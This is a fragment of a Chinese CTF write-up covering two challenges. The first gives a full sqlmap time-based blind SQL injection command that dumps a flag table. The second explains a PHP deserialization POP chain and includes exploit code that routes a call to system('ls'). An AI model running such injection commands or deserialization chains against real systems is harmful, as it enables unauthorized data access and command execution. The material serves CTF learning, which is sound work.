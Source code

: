 sqlmap 时间盲注



sqlmap 做就行，注意调线程和时延，直接报不行的

这里只直接给最后的 payload：

sqlmap -u URL/?id=TMP5978 --batch -t 10 --delay 1 -D ctf -T here_is_flag -C flag --dump

![](https://s2.loli.net/2024/03/08/rijIxTKEWayQmAJ.png)

### [WEEK3] POP Gadget

 反序列化



pop 链：

whitegod(func=system,var=ls) -> ctf(handle=$whitegod) -> handle(obj=$ctf) -> super(obj=$handle) -> then(func=$super) -> begin(name=$then)

EXP:

```php
<?php

class Begin{
    public $name;
}

class Then{
    public $func;
}

class Handle{
    public $obj;
}

class Super{
    public $obj;
}

class CTF{
    public $handle;

}

class WhiteGod{
    public $func;
    public $var;
}

$whitegod=new WhiteGod();
$ctf=new CTF();
$super=new Super();
$handle=new Handle();
$then=new Then();
$begin=new Begin();

$whitegod->func='system';
$whitegod->var='ls';
$ctf->handle=$whitegod;
$handle->obj=$ctf;
$super->obj=$handle;
$then->func=$super;
$begin->name=$then;

```